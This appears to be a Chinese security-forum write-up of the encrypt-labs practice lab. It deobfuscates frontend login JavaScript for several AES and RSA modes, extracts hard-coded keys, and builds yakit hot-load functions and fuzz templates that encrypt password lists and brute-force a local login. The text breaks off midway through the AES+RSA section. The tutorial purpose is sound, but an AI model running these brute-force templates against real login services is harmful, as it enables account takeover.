# 利用单兵渗透武器yakit实战encrypt-labs靶场-先知社区

> **来源**: https://xz.aliyun.com/news/19144  
> **文章ID**: 19144

---

> 靶场地址：[SwagXz/encrypt-labs: 前端加密对抗练习靶场，包含非对称加密、对称加密、加签以及禁止重放的测试场景，比如AES、DES、RSA，用于渗透测试练习](https://github.com/SwagXz/encrypt-labs)

yakit作为一款国产单兵作战武器相当之优秀，集成了相当多的功能，可玩性、可操作性和可扩展性都大于传统的bp工具。本文主页结合"encrypt-labs"模拟登录靶场、围绕yakit中yak语言和序列发包两个特性来展现yakit自动化攻击操作。

* yak语言：基于go开发的嵌入式语言，为安全而生，可以自定义热加载嵌入到发包中，支持并发，简单且高效
* 序列fuzz：一些复杂且连贯的请求基本只能通过浏览器或python脚本去一次性完成，而yakit中的序列可以像流水线一样批量的、自动化的完成数据提取（支持多种正则）、数据继承（cookie、变量等）、数据分析等操作。

# 前置

创建数据库并导入



对于登录的前端源码，对应7个不同的登录模式

```
<div id="modal" class="modal">
    <div class="modal-content">
      <p>选择数据发送接口:</p>
      <button onclick="sendDataAes('encrypt/aes.php')">AES固定Key</button>
      <!--<button onclick="sendData('encrypt/other.php')">AES随机Key</button>-->
      <button onclick="fetchAndSendDataAes('encrypt/aesserver.php')">AES服务端获取Key</button>
      <button onclick="sendEncryptedDataRSA('encrypt/rsa.php')">Rsa加密</button>
      <button onclick="sendDataAesRsa('encrypt/aesrsa.php')">AES+Rsa加密</button>
      <button onclick="encryptAndSendDataDES('encrypt/des.php')">Des规律Key</button>
      <button onclick="sendDataWithNonce('encrypt/signdata.php')">明文加签</button>
      <button onclick="sendDataWithNonceServer('encrypt/signdataserver.php')">加签key在服务器端</button>
      <button onclick="sendLoginRequest('encrypt/norepeater.php')">禁止重放</button>

      <button onclick="closeModal()">取消</button>
    </div>
```

# AES固定Key

请求链



点击位置

```
<button onclick="sendDataAes('encrypt/aes.php')">AES固定Key</button>
```

定位sendDataAes函数

```
function sendDataAes(_0x30cb8e) {
    const _0x250d35 = {
        'username': document['getElementById'](_0x2fe90c(0x115, 0x103))[_0x2fe90c(0x116, 0x107)],
        'password': document['getElementById'](_0x2fe90c(0x117, 0x10f))['value']
    }
      , _0x807d91 = JSON['stringify'](_0x250d35);
    function _0x2fe90c(_0x1d8ccd, _0x579d33) {
        return _0x4f79d5(_0x1d8ccd - -0x6d, _0x579d33);
    }
    const _0x67b862 = CryptoJS['enc']['Utf8']['parse']('1234567890123456')
      , _0x2d9cd5 = CryptoJS['enc'][_0x2fe90c(0x118, 0x11a)]['parse']('1234567890123456')
      , _0x1375d7 = CryptoJS['AES'][_0x2fe90c(0x119, 0x11c)](_0x807d91, _0x67b862, {
        'iv': _0x2d9cd5,
        'mode': CryptoJS[_0x2fe90c(0x11a, 0x11b)]['CBC'],
        'padding': CryptoJS[_0x2fe90c(0x11b, 0x11e)][_0x2fe90c(0x11c, 0x12c)]
    })[_0x2fe90c(0x11d, 0x10e)]()
      , _0x550d63 = 'encryptedData=' + encodeURIComponent(_0x1375d7);
    fetch(_0x30cb8e, {
        'method': 'POST',
        'headers': {
            'Content-Type': _0x2fe90c(0x11e, 0x12b)
        },
        'body': _0x550d63
    })[_0x2fe90c(0x11f, 0x132)](_0x31e99a => _0x31e99a[_0x2fe90c(0x120, 0x133)]())[_0x2fe90c(0x11f, 0x11a)](_0x14f6d3 => {
        function _0x41808e(_0x7f8e95, _0x59eee0) {
            return _0x2fe90c(_0x7f8e95 - -0x2ae, _0x59eee0);
        }
        _0x14f6d3[_0x41808e(-0x18d, -0x188)] ? (alert('登录成功'),
        window[_0x41808e(-0x18c, -0x182)]['href'] = _0x41808e(-0x18b, -0x18d)) : alert('用户名或密码错误');
    }
    )['catch'](_0x54e96b => {
        function _0x267ca4(_0x45654b, _0x18fa07) {
            return _0x2fe90c(_0x45654b - 0x23a, _0x18fa07);
        }
        console['error'](_0x267ca4(0x35e, 0x34d), _0x54e96b);
    }
    ),
    closeModal();
}
```

对应未混淆js

```
function sendDataAes(url) {
    const formData = {
        username: document.getElementById("username")
            .value,
        password: document.getElementById("password")
            .value
    };
    const jsonData = JSON.stringify(formData);

    const key = CryptoJS.enc.Utf8.parse("1234567890123456");
    const iv = CryptoJS.enc.Utf8.parse("1234567890123456");

    const encrypted = CryptoJS.AES.encrypt(jsonData, key, {
            iv: iv,
            mode: CryptoJS.mode.CBC,
            padding: CryptoJS.pad.Pkcs7
        })
        .toString();
    const params = `encryptedData=${encodeURIComponent(encrypted)}`;

    fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded; charset=utf-8"
            },
            body: params
        })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                alert("登录成功");
                window.location.href = "success.html";
            } else {
                alert("用户名或密码错误");
            }
        })
        .catch(error => {
            console.error("请求错误:", error);
        });

    closeModal();
}
```

分析可以发现是个简单前端AES加密，加密用户名密码，向aes.php验证，其中aes-key和aes-iv均为1234567890123456

登录抓包

```
POST /encrypt-labs/encrypt/aes.php HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138", "Microsoft Edge";v="138"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36 Edg/138.0.0.0
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Sec-Fetch-Mode: cors
Accept: */*
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1/encrypt-labs/
Origin: http://127.0.0.1
Cookie: key=good; PHPSESSID=0f4gqslnpkdqh964gqac27v9fp
Content-Length: 82

encryptedData=Kuwd4nOP4uYUsEwbv3VxHnratzhzNKwLR9%2Bx0p2bfNBWTmzH92bSW3XfB3%2B4alVM
```

解密



构造yakit热加载函数

```
aes = func(p) {
    
    key = "1234567890123456" /* key */
    iv = "1234567890123456" /* iv */
    results = str.Split(p, ",")
    m = {"username": results[0], "password": results[1]}
    jsonInput = json.dumps(m)
    result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
    base64Result = codec.EncodeBase64(result)
    return base64Result
}
```

调用aes加密passwd爆破

```
encryptedData={{urlesc({{yak(aes|admin,{{payload(pass_top25)}})}})}}
```



# AES服务端获取Key

尝试登录可以发现进行了两次请求



跟踪其调用情况

点击

```
<button onclick="fetchAndSendDataAes('encrypt/aesserver.php')">AES服务端获取Key</button>
```

定位fetchAndSendDataAes函数

```
async function fetchAndSendDataAes(_0x2a7a46) {
    let _0x4a090f, _0x779743;
    try {
        const _0x47f177 = await fetch('encrypt/server_generate_key.php')
          , _0x4a20d5 = await _0x47f177['json']();
        _0x4a090f = CryptoJS['enc']['Base64'][_0x57c5f7(0x308, 0x30d)](_0x4a20d5['aes_key']),
        _0x779743 = CryptoJS[_0x57c5f7(0x305, 0x314)]['Base64'][_0x57c5f7(0x308, 0x314)](_0x4a20d5['aes_iv']);
    } catch (_0x20a85b) {
        console['error'](_0x57c5f7(0x309, 0x306), _0x20a85b),
        alert(_0x57c5f7(0x30a, 0x2f8));
        return;
    }
    const _0x2ded50 = {
        'username': document[_0x57c5f7(0x2e6, 0x2d1)](_0x57c5f7(0x2ec, 0x2d9))[_0x57c5f7(0x2ed, 0x2f5)],
        'password': document['getElementById']('password')['value']
    }
      , _0x138960 = JSON[_0x57c5f7(0x301, 0x310)](_0x2ded50);
    function _0x57c5f7(_0xdd69ee, _0x479ca9) {
        return _0x4f79d5(_0xdd69ee - 0x16a, _0x479ca9);
    }
    const _0x34154f = CryptoJS[_0x57c5f7(0x302, 0x318)][_0x57c5f7(0x2f0, 0x2e1)](_0x138960, _0x4a090f, {
        'iv': _0x779743,
        'mode': CryptoJS[_0x57c5f7(0x2f1, 0x2e3)][_0x57c5f7(0x30b, 0x31e)],
        'padding': CryptoJS[_0x57c5f7(0x2f2, 0x2ec)]['Pkcs7']
    })['toString']();
    fetch(_0x2a7a46, {
        'method': _0x57c5f7(0x306, 0x300),
        'headers': {
            'Content-Type': _0x57c5f7(0x30c, 0x2fc)
        },
        'body': JSON[_0x57c5f7(0x301, 0x311)]({
            'encryptedData': _0x34154f
        })
    })[_0x57c5f7(0x2f6, 0x307)](_0x5988ef => _0x5988ef['json']())['then'](_0x5d0892 => {
        function _0x335be7(_0x31d09b, _0x526807) {
            return _0x57c5f7(_0x526807 - -0x511, _0x31d09b);
        }
        _0x5d0892['success'] ? (alert(_0x335be7(-0x1f9, -0x20a)),
        window['location'][_0x335be7(-0x227, -0x213)] = 'success.html') : alert(_0x335be7(-0x204, -0x212));
    }
    )['catch'](_0x34a4e6 => console[_0x57c5f7(0x300, 0x310)]('请求错误:', _0x34a4e6)),
    closeModal();
}
```

去混淆源码

```
async function fetchAndSendDataAes(url) {
    let aesKey, aesIv;

    try {
        const response = await fetch("encrypt/server_generate_key.php");
        const data = await response.json();
        aesKey = CryptoJS.enc.Base64.parse(data.aes_key);
        aesIv = CryptoJS.enc.Base64.parse(data.aes_iv);
    } catch (error) {
        console.error("获取 AES 密钥失败:", error);
        alert("无法获取 AES 密钥，请刷新页面重试");
        return;
    }

    const formData = {
        username: document.getElementById("username")
            .value,
        password: document.getElementById("password")
            .value
    };
    const jsonData = JSON.stringify(formData);

    const encryptedData = CryptoJS.AES.encrypt(jsonData, aesKey, {
            iv: aesIv,
            mode: CryptoJS.mode.CBC,
            padding: CryptoJS.pad.Pkcs7
        })
        .toString();

    fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/json"
            },
            body: JSON.stringify({
                encryptedData: encryptedData
            })
        })
        .then(response => response.json())
        .then(data => {
            if (data.success) {
                alert("登录成功");
                window.location.href = "success.html";
            } else {
                alert("用户名或密码错误");
            }
        })
        .catch(error => console.error("请求错误:", error));

    closeModal();
}
```

可以发现fetch触发第一次请求encrypt/server\_generate\_key.php，从服务器获得了key和iv，用于后续aes加密用户名密码，同上一题一样向encrypt/aesserver.php进行验证

解密



多次访问encrypt/server\_generate\_key.php发现key和iv根据Cookie动态的，fuzz最好保证随机cookie

利用yakit序列+热加载

```
aes = func(p) {
    results = str.Split(p, ",")
    m = {"username": results[0], "password": results[1]} /* 这里替换为你需要的格式 */
    key = results[2] /* 加密密钥 */
    iv = results[3] /* 初始化向量 */
    jsonInput = json.dumps(m)
    result = codec.AESCBCEncryptWithPKCS7Padding(key, jsonInput, iv)~
    base64Result = codec.EncodeBase64(result)
    return base64Result
}
```

step1:自动化提取key和iv





step2:用继承step1提取的key、iv加密passwd后发包

```
{"encryptedData":"{{yak(aes|admin,{{p(passwd)}},{{base64dec({{p(aes_key)}})}},{{base64dec({{p(aes_iv)}})}})}}"}
```



# Rsa加密

调用链



点击

```
<button onclick="sendEncryptedDataRSA('encrypt/rsa.php')">Rsa加密</button>
```

跟踪sendEncryptedDataRSA函数

```
function sendEncryptedDataRSA(_0x1994b9) {
    const _0x3e25e1 = '\x0a-----BEGIN\x20PUBLIC\x20KEY-----\x0aMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDRvA7giwinEkaTYllDYCkzujvi\x0aNH+up0XAKXQot8RixKGpB7nr8AdidEvuo+wVCxZwDK3hlcRGrrqt0Gxqwc11btlM\x0aDSj92Mr3xSaJcshZU8kfj325L8DRh9jpruphHBfh955ihvbednGAvOHOrz3Qy3Cb\x0aocDbsNeCwNpRxwjIdQIDAQAB\x0a-----END\x20PUBLIC\x20KEY-----\x0a\x20\x20'
      , _0x2054e8 = document['getElementById']('username')['value']
      , _0x12c801 = document['getElementById'](_0x4e70c0(0x121, 0x112))[_0x4e70c0(0x120, 0x12f)];
    function _0x4e70c0(_0x5d3de4, _0x4543b1) {
        return _0x4f79d5(_0x5d3de4 - -0x63, _0x4543b1);
    }
    const _0x30cf06 = {
        'username': _0x2054e8,
        'password': _0x12c801
    }
      , _0x4c2fb7 = JSON['stringify'](_0x30cf06)
      , _0x2eaef7 = new JSEncrypt();
    _0x2eaef7['setPublicKey'](_0x3e25e1);
    const _0xc4a2fd = _0x2eaef7[_0x4e70c0(0x123, 0x11e)](_0x4c2fb7);
    if (!_0xc4a2fd) {
        alert(_0x4e70c0(0x12f, 0x140));
        return;
    }
    const _0x26edee = new URLSearchParams();
    _0x26edee['append'](_0x4e70c0(0x130, 0x11c), _0xc4a2fd),
    fetch(_0x1994b9, {
        'method': 'POST',
        'headers': {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        'body': _0x26edee['toString']()
    })['then'](_0xe6b8f => _0xe6b8f[_0x4e70c0(0x12a, 0x13d)]())['then'](_0x2d828c => {
        function _0x328f75(_0x4f7726, _0x165312) {
            return _0x4e70c0(_0x4f7726 - -0x7f, _0x165312);
        }
        _0x2d828c['success'] ? (alert('登录成功'),
        window['location'][_0x328f75(0xb2, 0xc0)] = 'success.html') : alert(_0x2d828c['error'] || _0x328f75(0xb3, 0xa7));
    }
    )['catch'](_0x383b72 => console[_0x4e70c0(0x133, 0x13c)]('请求错误:', _0x383b72)),
    closeModal();
}

```

未混淆

```
function sendEncryptedDataRSA(url) {
    const publicKey = `
-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDRvA7giwinEkaTYllDYCkzujvi
NH+up0XAKXQot8RixKGpB7nr8AdidEvuo+wVCxZwDK3hlcRGrrqt0Gxqwc11btlM
DSj92Mr3xSaJcshZU8kfj325L8DRh9jpruphHBfh955ihvbednGAvOHOrz3Qy3Cb
ocDbsNeCwNpRxwjIdQIDAQAB
-----END PUBLIC KEY-----
  `;
    const username = document.getElementById("username").value;
    const password = document.getElementById("password").value;

    const dataPacket = {
        username: username,
        password: password
    };

    const dataString = JSON.stringify(dataPacket);

    const encryptor = new JSEncrypt();
    encryptor.setPublicKey(publicKey);

    const encryptedData = encryptor.encrypt(dataString);

    if (!encryptedData) {
        alert("加密失败，请检查公钥是否正确");
        return;
    }

    const formData = new URLSearchParams();
    formData.append('data', encryptedData);

    fetch(url, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: formData.toString()
    })
    .then(response => response.json())
    .then(data => {
        if (data.success) {
            alert("登录成功");
            window.location.href = "success.html";
        } else {
            alert(data.error || "用户名或密码错误");
        }
    })
    .catch(error => console.error("请求错误:", error));

    closeModal();
}
```

jsencrypt.min.js定义encrypt函数，分析为RSA加密，Rsa为非对称加密，不可逆，RSA公钥为固定

```
┌──(root㉿7)-[~]
└─# echo $'\x0a-----BEGIN\x20PUBLIC\x20KEY-----\x0aMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDRvA7giwinEkaTYllDYCkzujvi\x0aNH+up0XAKXQot8RixKGpB7nr8AdidEvuo+wVCxZwDK3hlcRGrrqt0Gxqwc11btlM\x0aDSj92Mr3xSaJcshZU8kfj325L8DRh9jpruphHBfh955ihvbednGAvOHOrz3Qy3Cb\x0aocDbsNeCwNpRxwjIdQIDAQAB\x0a-----END\x20PUBLIC\x20KEY-----\x0a\x20\x20'

-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDRvA7giwinEkaTYllDYCkzujvi
NH+up0XAKXQot8RixKGpB7nr8AdidEvuo+wVCxZwDK3hlcRGrrqt0Gxqwc11btlM
DSj92Mr3xSaJcshZU8kfj325L8DRh9jpruphHBfh955ihvbednGAvOHOrz3Qy3Cb
ocDbsNeCwNpRxwjIdQIDAQAB
-----END PUBLIC KEY-----
```

yak热加载定义函数

```
rsa = func(p) {
    publicKey64 = `LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0NCk1JR2ZNQTBHQ1NxR1NJYjNEUUVCQVFVQUE0R05BRENCaVFLQmdRRFJ2QTdnaXdpbkVrYVRZbGxEWUNrenVqdmkNCk5IK3VwMFhBS1hRb3Q4Uml4S0dwQjducjhBZGlkRXZ1byt3VkN4WndESzNobGNSR3JycXQwR3hxd2MxMWJ0bE0NCkRTajkyTXIzeFNhSmNzaFpVOGtmajMyNUw4RFJoOWpwcnVwaEhCZmg5NTVpaHZiZWRuR0F2T0hPcnozUXkzQ2INCm9jRGJzTmVDd05wUnh3aklkUUlEQVFBQg0KLS0tLS1FTkQgUFVCTElDIEtFWS0tLS0t` /* base64格式的publicKey */
    publicKey = codec.DecodeBase64(publicKey64)~ 

    publicKey = []byte(publicKey)
    results = str.Split(p, ",")

    m = {"username":results[0],"password":results[1]} /* 这里替换为你需要的格式 */
    jsonInput = json.dumps(m)
    result = codec.RSAEncryptWithPKCS1v15(publicKey , jsonInput)~
    base64Result = codec.EncodeBase64(result)

    return base64Result
}
```

热加载rsa函数加密passwd发包爆破

```
data={{url({{yak(rsa|admin,{{payload(pass_top25)}})}})}}
```



# AES+Rsa加密

调用链



```
<button onclick="sendDataAesRsa('encrypt/aesrsa.php')">AES+Rsa加密</button>
```

定位sendDataAesRsa

```
function sendDataAesRsa(_0xcb20dc) {
    const _0x1d6568 = {
        'username': document[_0x13ef4f(0x3bf, 0x3af)]('username')[_0x13ef4f(0x3a2, 0x3b6)],
        'password': document[_0x13ef4f(0x3c1, 0x3af)](_0x13ef4f(0x3ac, 0x3b7))['value']
    }
      , _0x57740d = JSON[_0x13ef4f(0x3d6, 0x3ca)](_0x1d6568)
      , _0x4515a4 = CryptoJS['lib']['WordArray']['random'](0x10)
      , _0x5e9345 = CryptoJS['lib']['WordArray']['random'](0x10)
      , _0x4cf83b = CryptoJS[_0x13ef4f(0x3c1, 0x3cb)][_0x13ef4f(0x3c6, 0x3b9)](_0x57740d, _0x4515a4, {
        'iv': _0x5e9345,
        'mode': CryptoJS['mode']['CBC'],
        'padding': CryptoJS['pad'][_0x13ef4f(0x3b6, 0x3bc)]
    })['toString']()
      , _0x41d8d9 = new JSEncrypt();
    _0x41d8d9[_0x13ef4f(0x3b9, 0x3cc)](_0x13ef4f(0x3de, 0x3cd));
    const _0x2a1fb9 = _0x41d8d9[_0x13ef4f(0x3c7, 0x3b9)](_0x4515a4['toString'](CryptoJS[_0x13ef4f(0x3cc, 0x3ce)]['Base64']));
    function _0x13ef4f(_0x37ca9b, _0x360cfe) {
        return _0x4f79d5(_0x360cfe - 0x233, _0x37ca9b);
    }
    const _0x1af58a = _0x41d8d9['encrypt'](_0x5e9345['toString'](CryptoJS['enc']['Base64']));
    fetch(_0xcb20dc, {
        'method': _0x13ef4f(0x3bd, 0x3cf),
        'headers': {
            'Content-Type': 'application/json'
        },
        'body': JSON['stringify']({
            'encryptedData': _0x4cf83b,
            'encryptedKey': _0x2a1fb9,
            'encryptedIv': _0x1af58a
        })
    })['then'](_0x235dc9 => _0x235dc9['json']())['then'](_0x48c2d5 => {
        function _0x436ea1(_0x4c4a70, _0x56e1d3) {
            return _0x13ef4f(_0x4c4a70, _0x56e1d3 - -0x134);
        }
        _0x48c2d5['success'] ? (alert(_0x436ea1(0x2a2, 0x29c)),
        window['location']['href'] = _0x436ea1(0x27b, 0x28f)) : alert(_0x436ea1(0x290, 0x294));
    }
